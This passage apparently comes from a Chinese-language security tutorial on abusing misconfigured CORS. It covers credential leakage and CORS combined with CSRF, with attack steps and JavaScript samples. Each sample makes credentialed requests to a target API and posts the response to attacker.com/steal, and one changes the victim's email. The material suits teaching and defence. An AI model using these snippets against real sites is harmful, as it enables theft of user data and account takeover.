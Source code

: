 **代码示例：**
```javascript
fetch('https://target-api.com/sensitive-data', {
  method: 'GET',
  headers: {
    'Origin': 'https://legitimate-site.com'
  },
  credentials: 'include'
})
.then(response => response.json())
.then(data => {
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

### 2.3 凭证泄露
当CORS配置允许跨域请求携带凭证时，攻击者可以窃取用户的会话信息。

**攻击步骤：**
1. 攻击者构造一个恶意网页，包含向目标API发起跨域请求的代码，并设置`credentials: 'include'`。
2. 受害者访问该恶意网页，浏览器自动发起跨域请求，携带用户的Cookies。
3. 目标API返回敏感数据，攻击者通过JavaScript获取并发送到自己的服务器。

**代码示例：**
```javascript
fetch('https://target-api.com/sensitive-data', {
  method: 'GET',
  credentials: 'include'
})
.then(response => response.json())
.then(data => {
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

## 3. 高级利用技巧

### 3.1 CORS与CSRF结合
攻击者可以将CORS滥用与CSRF（跨站请求伪造）结合，执行更复杂的攻击。

**攻击步骤：**
1. 攻击者构造一个恶意网页，包含向目标API发起跨域请求的代码。
2. 受害者访问该恶意网页，浏览器自动发起跨域请求。
3. 目标API执行敏感操作（如修改用户信息），攻击者通过JavaScript获取操作结果。

**代码示例：**
```javascript
fetch('https://target-api.com/update-profile', {
  method: 'POST',
  credentials: 'include',
  body: JSON.stringify({ email: 'attacker@example.com' })
})
.then(response => response.json())
.then(data => {
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```